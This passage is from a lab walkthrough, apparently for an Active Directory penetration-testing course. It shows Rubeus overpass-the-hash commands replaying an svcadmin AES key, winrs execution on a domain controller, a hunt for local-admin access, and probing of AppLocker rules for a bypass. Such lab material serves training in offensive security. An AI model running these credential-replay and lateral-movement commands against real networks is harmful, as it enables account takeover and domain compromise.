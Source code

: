 Now, we can use OverPass-the-Hash to replay svcadmin credentials

Run the following command from a new elevated shell on the student VM to use Rubeus.

```bash
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
winrs -r:dcorp-dc cmd /c set username
```

<figure><img src="../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

### 3 - Escalate privilege to DA by abusing derivative local admin through dcorp-adminsrv. On dcorp-adminsrv, tackle application allowlisting using:

We need to escalate to domain admin using derivative local admin. Find out the machines on which we have local admin privileges.

```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
PS C:\Users\student867> Find-PSRemotingLocalAdminAccess
```

<figure><img src="../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

Our result is: dcorp-adminsrv ant there's an output error message.

### 3.1 - Gaps in Applocker rules.

Let's check if Applocker is configured on dcorp-adminsrv by querying registry keys. Note that we are assuming that reg.exe is allowed to execute:

```powershell
winrs -r:dcorp-adminsrv cmd
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
```

<figure><img src="../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>

The Applocker is configured and after going through the policies, we can understand that Microsoft Signed binaries and scripts are allowed for all the users but nothing else.

However, this particular rule is overly permissive!

```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script\06dce67b-934c-454f-a263-2515c8796a5d
```

<figure><img src="../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>

A default rule is enabled that allows everyone to run scripts from the C:\ProgramFiles folder.

We can also confirm this using PowerShell commands on dcrop-adminsrv in a PowerShell session as student867:
